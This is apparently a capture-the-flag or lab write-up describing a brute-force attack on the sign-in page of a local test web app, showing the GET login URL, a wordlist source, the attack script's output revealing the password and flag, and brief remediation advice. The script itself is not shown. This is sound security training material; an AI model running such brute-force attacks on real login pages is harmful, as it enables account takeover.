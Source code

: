 # Bruteforce login

On the homepage, with when we click on the button `sign in`, we get the page `http://192.168.1.48/?page=signin`

We can try to bruteforce the login with the username `admin` because there is an `admin` cookie

Let's see how the login is made

It using a GET request

`http://192.168.1.48/?page=signin&username=&password=&Login=Login`

To bruteforce, we will fill the `username` and `password` fields

We will do a python script and use a password wordlist from https://github.com/danielmiessler/SecLists/blob/master/Passwords/Leaked-Databases/rockyou-50.txt

The script will test all the passwords

```
$ ./exploit.py
test with 'chelsea'
test with 'lovers'
test with 'teamo'
test with 'jasmine'
.....
test with 'sweety'
test with 'spongebob'
found! password is 'shadow'
The flag is : b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2
```

## How to fix it?

- Use strong password
- Put a delay on the login requests to block bruteforcing
- Ban after X bad passwords
